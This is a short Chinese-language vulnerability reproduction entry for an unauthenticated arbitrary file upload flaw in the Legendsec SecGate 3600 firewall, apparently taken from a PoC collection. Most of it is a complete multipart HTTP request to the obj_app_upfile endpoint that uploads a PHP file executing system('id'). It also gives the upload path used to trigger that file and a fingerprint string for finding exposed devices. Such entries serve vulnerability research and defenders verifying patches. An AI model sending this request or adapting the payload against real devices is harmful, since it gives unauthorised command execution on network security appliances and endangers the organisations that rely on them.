




# 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

网神 SecGate 3600 防火墙

## 网络测绘

```
fid="1Lh1LHi6yfkhiO83I59AYg=="
```

## 漏洞复现

登录页面



出现漏洞的文件 webui/modules/object/app.mds



代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传



```
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/xxx.php 文件

